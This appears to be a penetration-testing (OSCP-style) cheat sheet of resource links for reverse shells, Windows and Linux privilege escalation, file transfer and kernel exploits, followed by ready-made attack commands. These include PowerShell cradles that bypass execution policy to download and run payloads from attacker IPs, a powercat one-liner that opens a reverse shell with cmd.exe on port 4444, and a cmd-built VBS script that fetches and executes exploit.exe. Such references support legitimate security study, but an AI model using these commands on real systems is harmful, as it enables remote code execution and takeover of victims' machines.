 
## Reverse Shell Generator

https://www.revshells.com/

https://github.com/ferreirasc/oscp/tree/master/payloads

## One liner reverse shells

https://arno0x0x.wordpress.com/2017/11/20/windows-oneliners-to-download-remote-payload-and-execute-arbitrary-code/

## Windows Privesc Additional Resources

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md

https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation

https://www.fuzzysecurity.com/tutorials/16.html

## Linux Privesc Additional Resources

https://book.hacktricks.xyz/linux-hardening/privilege-escalation

https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_-_linux.html

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md

https://guif.re/linuxeop

## File Transfers Additional Resources

https://medium.com/@PenTest_duck/almost-all-the-ways-to-file-transfer-1bd6bf710d65

https://www.hackingarticles.in/file-transfer-cheatsheet-windows-and-linux/

## Precompiled Binaries / exploits

https://github.com/SecWiki/windows-kernel-exploits

https://github.com/SecWiki/linux-kernel-exploits

## Powershell Usefull Cradles to Download File

```
powershell.exe -NoP -NonI -Exec Bypass IEX "(New-Object System.Net.WebClient).DownloadFile('http://10.11.0.117/shell443.exe','shell443.exe')"
```

## Powershell Usefull Cradles to Download Script to memory and Execute it

This Example will download Powercat to memory and execute a reverse shell using Powercat

```
powershell.exe -NoP -NonI -Exec Bypass IEX (New-Object System.Net.Webclient).DownloadString("http://172.16.242.173/powercat.ps1"); powercat -c 172.16.242.173 -p 4444 -e cmd.exe
```

You can use this technique to download any script to memory and execute functions from it like Powerview also

```
powershell.exe -NoP -NonI -Exec Bypass IEX (New-Object System.Net.Webclient).DownloadString('http://192.168.101.24/powerview.ps1'); Get-DomainController
```

## VBS Cradle to Download Transfer File and Execute it

cmd.exe /c "@echo Set objXMLHTTP=CreateObject("MSXML2.XMLHTTP")>poc.vbs&@echo objXMLHTTP.open "GET","http://192.168.119.142/exploit.exe",false>>poc.vbs&@echo objXMLHTTP.send()>>poc.vbs&@echo If objXMLHTTP.Status=200 Then>>poc.vbs&@echo Set objADOStream=CreateObject("ADODB.Stream")>>poc.vbs&@echo objADOStream.Open>>poc.vbs&@echo objADOStream.Type=1 >>poc.vbs&@echo objADOStream.Write objXMLHTTP.ResponseBody>>poc.vbs&@echo objADOStream.Position=0 >>poc.vbs&@echo objADOStream.SaveToFile "exploit.exe">>poc.vbs&@echo objADOStream.Close>>poc.vbs&@echo Set objADOStream=Nothing>>poc.vbs&@echo End if>>poc.vbs&@echo Set objXMLHTTP=Nothing>>poc.vbs&@echo Set objShell=CreateObject("WScript.Shell")>>poc.vbs&@echo objShell.Exec("exploit.exe")>>poc.vbs&cscript.exe poc.vbs"


